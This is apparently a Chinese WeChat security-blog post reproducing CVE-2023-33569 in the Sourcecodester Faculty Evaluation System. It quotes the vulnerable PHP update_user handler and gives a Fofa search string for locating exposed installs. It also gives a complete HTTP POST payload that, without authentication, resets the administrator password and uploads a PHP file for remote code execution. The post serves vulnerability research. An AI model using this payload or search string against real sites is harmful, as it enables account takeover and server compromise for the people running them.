 #  Sourcecodeste Faculty Evaluation System v1.0 Rce(CVE-2023-33569)

原创 Swimt  [ 星悦安全 ](javascript:void\(0\);)

**星悦安全** ![]()

微信号 XingYue404

功能介绍 网络安全知识分享|渗透测试|代码审计|SRC|专注分享优质内容。

____

___发表于_

收录于合集

#代码审计 7 个

#漏洞复现 2 个

## 0x00 前言

 **Fofa: "assets/dist/css/jquery.datetimepicker.min.css"**

 **源码下载 :** **https://www.sourcecodester.com/php/14635/faculty-evaluation-
system-using-phpmysqli-source-code.html**

 **这是一套面板系统，看了代码之后只能说一言难尽.....     界面长这样**

![](https://gitee.com/fuli009/images/raw/master/public/20230714175609.png)

## 0x01 前台任意重置管理员密码+文件上传漏洞

 **我们先看这个 ajax.php 里边调用了 update_user 方法**

    
    
    <?php  
    ob_start();  
    date_default_timezone_set("Asia/Manila");  
    $action = $_GET['action'];            //Get请求action  
    include 'admin_class.php';            //引用admin_class.php  
    $crud = new Action();  
    //省略其他无用代码......  
    ...  
    if($action == 'update_user'){  
    	$save = $crud->update_user();  
    	if($save)  
    		echo $save;  
    ...

 **追到 admin_class.php ,我们来看看 update_user
,看到里边直接更新了管理员的信息，顺带上传了文件，鉴权跟不存在一样...**

    
    
    	function update_user(){  
    		extract($_POST);  
    		$data = "";  
    		$type = array("","users","faculty_list","student_list");  
    	foreach($_POST as $k => $v){  
    			if(!in_array($k, array('id','cpass','table','password')) && !is_numeric($k)){  
    				  
    				if(empty($data)){  
    					$data .= " $k='$v' ";  
    				}else{  
    					$data .= ", $k='$v' ";  
    				}  
    			}  
    		}  
    		$check = $this->db->query("SELECT * FROM {$type[$_SESSION['login_type']]} where email ='$email' ".(!empty($id) ? " and id != {$id} " : ''))->num_rows;  
    		if($check > 0){  
    			return 2;  
    			exit;  
    		}  
    		if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){  
    			$fname = strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];  
    			$move = move_uploaded_file($_FILES['img']['tmp_name'],'assets/uploads/'. $fname);  
    			$data .= ", avatar = '$fname' ";  
      
    		}  
    		if(!empty($password))  
    			$data .= " ,password=md5('$password') ";  
    		if(empty($id)){  
    			$save = $this->db->query("INSERT INTO {$type[$_SESSION['login_type']]} set $data");  
    		}else{  
    			echo "UPDATE {$type[$_SESSION['login_type']]} set $data where id = $id";  
    			$save = $this->db->query("UPDATE {$type[$_SESSION['login_type']]} set $data where id = $id");  
    		}  
      
    		if($save){  
    			foreach ($_POST as $key => $value) {  
    				if($key != 'password' && !is_numeric($key))  
    					$_SESSION['login_'.$key] = $value;  
    			}  
    			if(isset($_FILES['img']) && !empty($_FILES['img']['tmp_name']))  
    					$_SESSION['login_avatar'] = $fname;  
    			return 1;  
    		}  
    	}

 **如果成功就会 return 1 中间还有一串检测邮箱的代码，但问题不大:**

    
    
    $check = $this->db->query("SELECT * FROM {$type[$_SESSION['login_type']]} where email ='$email' ".(!empty($id) ? " and id != {$id} " : ''))->num_rows;

 **Payload:**

    
    
    POST /eval/ajax.php?action=update_user HTTP/1.1  
    Host: x.x.x.x  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0  
    Accept: */*  
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3  
    Accept-Encoding: gzip, deflate  
    X-Requested-With: XMLHttpRequest  
    Referer: http://x.x.x.x/eval/index.php?page=report  
    Content-Length: 737  
    Content-Type: multipart/form-data; boundary=---------------------------166782539326470  
    Connection: close  
      
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="id"  
      
    1  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="firstname"  
      
    Administrator  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="lastname"  
      
    a  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="email"  
      
    admin@admin.com  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="password"  
      
    admin  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="img"; filename="php.php"  
    Content-Type: application/octet-stream  
      
    <?php phpinfo();?>  
    -----------------------------166782539326470--

 **没有显示上传路径咋办?  直接登录后台看 ****admin@admin.com|admin** **因为密码已经被修改了...**

![](https://gitee.com/fuli009/images/raw/master/public/20230714175610.png)

 **文件实际上传在这:** **/assets/uploads/时间戳_filename.php**

![](https://gitee.com/fuli009/images/raw/master/public/20230714175611.png)

#  **免责声明：**
**文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！！**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

